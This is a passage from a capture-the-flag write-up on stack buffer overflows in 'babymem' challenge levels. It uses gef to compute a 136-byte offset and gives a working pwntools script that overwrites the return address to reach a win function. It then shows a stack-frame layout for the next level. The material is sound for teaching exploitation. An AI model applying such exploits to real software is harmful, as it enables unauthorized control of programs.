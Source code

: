 * As we can see the `win` function starts at `0x0000000000402184`.
* We now have the information we need:
  * [x] Location of buffer: `0x7fff0c8f8e10`.
  * [x] Location of stored return address: `0x7fff0c8f8e98`.
  * [x] Address of win function: `0x0000000000402184`.
* Let's calculate the padding required.

```
gef➤  p/d 0x7fff0c8f8e98 - 0x7fff0c8f8e10
$3 = 136
```

* We can now create our payload.

```python
from pwn import *

padding = b'A' * 136
payload = padding + p64(0x402184)

p = process('/challenge/babymem_level3.1')
p.recvuntil('size:')
p.sendline('200')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```



## level 4.0

> Overflow a buffer and smash the stack to obtain the flag, but this time bypass a check designed to prevent you from doing so!

* Our stack frame looks something like this:

{% code fullWidth="false" %}
```
	    +---------------------------------+-------------------------+--------------------+
	    |                  Stack location |            Data (bytes) |      Data (LE int) |
	    +---------------------------------+-------------------------+--------------------+
rsp ------> | 0x00007ffd173983c0 (rsp+0x0000) | a0 d4 01 6a 59 7f 00 00 | 0x00007f596a01d4a0 |
	    | 0x00007ffd173983c8 (rsp+0x0008) | 78 95 39 17 fd 7f 00 00 | 0x00007ffd17399578 |
	    | 0x00007ffd173983d0 (rsp+0x0010) | 68 95 39 17 fd 7f 00 00 | 0x00007ffd17399568 |
            | 0x00007ffd173983d8 (rsp+0x0018) | dd 65 ec 69 01 00 00 00 | 0x0000000169ec65dd |
            | 0x00007ffd173983e0 (rsp+0x0020) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
	    | 0x00007ffd173983e8 (rsp+0x0028) | a0 16 02 6a 00 00 00 00 | 0x000000006a0216a0 |
	    | 0x00007ffd173983f0 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | \
	    | 0x00007ffd173983f8 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  \
	    | 0x00007ffd17398400 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007ffd17398408 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |---- buffer
       	    | 0x00007ffd17398410 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
       	    | 0x00007ffd17398418 (rsp+0x0058) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
            | 0x00007ffd17398420 (rsp+0x0060) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  /
            | 0x00007ffd17398428 (rsp+0x0068) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | /
            | 0x00007ffd17398430 (rsp+0x0070) | d0 11 40 00 00 00 00 00 | 0x00000000004011d0 |
            | 0x00007ffd17398438 (rsp+0x0078) | f0 83 39 17 fd 7f 00 00 | 0x00007ffd173983f0 |
rbp ------> | 0x00007ffd17398440 (rsp+0x0080) | 70 94 39 17 fd 7f 00 00 | 0x00007ffd17399470 | <------ saved ebp of previous frame
            | 0x00007ffd17398448 (rsp+0x0088) | 87 2a 40 00 00 00 00 00 | 0x0000000000402a87 | <------ return address
            +---------------------------------+-------------------------+--------------------+
```
{% endcode %}
